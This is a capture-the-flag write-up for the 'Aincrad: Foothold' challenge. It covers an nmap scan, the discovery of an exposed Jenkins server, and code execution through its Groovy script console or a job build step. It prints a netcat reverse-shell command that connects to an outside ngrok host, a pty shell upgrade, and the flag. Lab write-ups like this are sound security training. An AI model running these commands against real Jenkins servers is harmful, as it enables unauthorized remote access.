





### Aincrad: Foothold
###### Description: Hello Hackers We are RATH we got an old sao server running. Hack your way in.

###### aincrad.cybsec.in

###### NOTE:- 22PORT IS OUT OF SCOPE SO DONT WASTE TIME PLEASE NO DIRBUST AND BRUTEFORCE IT IS NOT REQUIRED. THE MACHINE IS JUST EXPERIMENTAL SO IT WILL RESET EVERY 1 HOUR JUST VOTE IN THE RESPECTIVE DISCORD FOR RESETS.

---
Let's start off with an Nmap scan-

**Command:**
```bash
nmap -T4 -v -oN nmap/nmap.out aincrad.cybsec.in
```
**Results:**
```
PORT     STATE    SERVICE
22/tcp   open     ssh
53/tcp   open     domain
80/tcp   open     http
2000/tcp open     cisco-sccp
5060/tcp open     sip
5061/tcp filtered sip-tls
8008/tcp open     http
8010/tcp open     xmpp
8080/tcp open     http-proxy
```
We know that ssh is out of scope. Taking a look at port 80, I found nothing of interest.

But if we go to port 8080, however, we see **Jenkins**. Jenkins is an open source automation server that's used to automate tasks related to building, testing and deploying applications, among other things.

We can use this to get code execution on the server, and consequently, get a shell. Now, there were 2 ways to do this.

> Note: If you cannot do port forwarding for some reason (like you're using mobile hotspot instead of a router), or you just don't want to, you can use [ngrok](https://ngrok.com/ "ngrok").

For the first one, we could go to `aincrad.cybsec.in:8080/script`. This would take us to a page where we could write a [Groovy script](https://groovy-lang.org/index.html "Groovy script") and use that to get a shell using something like this-

```
cmd = "nc 2.tcp.ngrok.io 48215 -e /bin/bash/"
cmd.execute()
```
---
I'm going to show the second method (the longer one) in more detail because that's the one I have screenshots of. So here goes-

When we visited port 8080, we were greeted by something like this-



If we clicked on "New Item" or "Create a job", we were taken to the following screen-



Gave it a name, selected freestyle project, and clicked ok. Now, there was an option to add a build step, where we could tell it to execute a shell script.



We can easily get a shell back using something like the following command-



After saving, we have now successfully created a project. Now, when we click on "Build now", we can get the server to execute the shell command we gave it during the creation of the project. Setting up the `nc` listener in advance and clicking "Build now", we have the shell.



Now, we can easily upgrade the shell by using the following command-

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
Running `whoami` tells us that we are `jenkins`, which makes sense since that's what we used to get our shell. Now looking in jenkins' home directory, one of the files that stood out was named **`jenkins.txt`**.

If we do `cat jenkins.txt`, we have our foothold flag!

**pCTF{gr00vy_1s_n0_fun}**
